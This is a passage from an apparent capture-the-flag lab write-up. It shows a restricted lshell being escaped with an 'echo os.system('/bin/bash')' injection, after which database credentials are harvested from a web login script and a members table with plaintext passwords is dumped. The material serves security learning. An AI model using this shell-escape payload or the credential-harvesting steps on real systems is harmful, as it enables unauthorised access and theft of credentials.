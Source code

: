 ```bash
john:~$ sudo
Traceback (most recent call last):
  File "/bin/kshell", line 27, in <module>
    lshell.main()
  File "/usr/lib/python2.5/site-packages/lshell.py", line 1219, in main
    cli.cmdloop()
  File "/usr/lib/python2.5/site-packages/lshell.py", line 410, in cmdloop
    stop = self.onecmd(line)
  File "/usr/lib/python2.5/site-packages/lshell.py", line 531, in onecmd
    func = getattr(self, 'do_' + cmd)
  File "/usr/lib/python2.5/site-packages/lshell.py", line 132, in __getattr__
    if self.check_secure(self.g_line, self.conf['strict']) == 1: 
  File "/usr/lib/python2.5/site-packages/lshell.py", line 247, in check_secure
    if cmdargs[1] not in self.conf['sudo_commands'] and cmdargs:
TypeError: 'NoneType' object is unsubscriptable
Connection to 192.168.137.135 closed.
```
And then [this](https://github.com/ghantoos/lshell) came up.  To be honest it took a bit of nudging and very careful googling to give me a hint that I was going in the wrong direction.  

There is an exploit for this version of lshell, and while I could get it to work escaping the shell, I couldn't wget any wanted scripts or do anything of any real use on the box without it hanging.  However, we know we can input commands, so with some more careful googling:

```bash
root@kali:~/Documents# ssh 192.168.137.135 -l john
john@192.168.137.135's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ echo os.system('/bin/bash')
```

Well that works, and now we have a shell but we need to escalate our privileges.  

So I thought it would be a good idea to check out /var/www/ and see if I could harvest credentials.  Checklogin.php had the database ones we needed.
```php
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
```

So I loaded up mysql and sought after some credentials.  In the members table we get what we're looking for.

```mysql
mysql> SELECT * FROM members;
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
|  1 | john     | MyNameIsJohn          | 
|  2 | robert   | ADGAdsafdfwt4gadfga== | 
+----+----------+-----------------------+
2 rows in set (0.00 sec)
```
